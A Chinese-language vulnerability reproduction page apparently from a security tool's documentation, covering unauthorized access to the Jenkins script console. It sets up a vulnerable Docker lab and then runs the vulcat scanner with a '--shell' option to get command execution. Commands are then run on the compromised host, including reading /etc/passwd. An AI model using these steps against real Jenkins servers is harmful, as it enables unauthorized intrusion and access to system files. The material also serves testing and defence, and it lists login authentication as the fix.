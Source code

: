 # 🧡 Jenkins未授权访问

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Jenkins未授权访问	|[Jenkins](https://www.jenkins.io/zh/)	|未授权访问	|暂无	|

|漏洞简介	|
|--	|
|<p>默认情况下 Jenkins面板中用户可以选择执行脚本界面 来操作一些系统层命令</p>攻击者可通过未授权访问漏洞，或者暴力破解用户密码等方式进入后台管理服务，通过脚本执行界面获取服务器权限	|

|参考链接	|
|--	|
|<ol><li><a href="https://blog.csdn.net/weixin_40412037/article/details/120369441">https://blog.csdn.net/weixin_40412037/article/details/120369441</a></li></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>配置Jenkins登录验证</li></ol>	|

### 漏洞环境

```
docker pull jenkins:1.625.1
docker run -itd -p 8080:8080 -p 50000:50000 jenkins:1.625.1
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/01.png" alt=""><figcaption></figcaption></figure>

启动容器后，访问8080端口即可看到jenkins页面
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/02.png" alt=""><figcaption></figcaption></figure>


### 漏洞复现

```
python3 vulcat.py <URL> -a jenkins -v unauth

# 注意, vulcat-v2.0.0版本及以上, 应使用以下命令
python3 vulcat.py -u <URL> -v jenkins-unauth
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/03.png" alt=""><figcaption></figcaption></figure>

你可以使用Request数据包：
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/04.png" alt=""><figcaption></figcaption></figure>
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/09.png" alt=""><figcaption></figcaption></figure>


#### 支持--shell选项
```
python3 vulcat.py <URL> -a jenkins -v unauth --shell

# 注意, vulcat-v2.0.0版本及以上, -a选项被移除, 应使用以下命令
python3 vulcat.py <URL> -v jenkins-unauth --shell

```
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/05.png" alt=""><figcaption></figcaption></figure>

* id
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/06.png" alt=""><figcaption></figcaption></figure>

* ls -l
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/07.png" alt=""><figcaption></figcaption></figure>

* cat /etc/passwd | vcsearch .{0,20}root.{0,800}
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/jenkins/unauth/08.png" alt=""><figcaption></figcaption></figure>
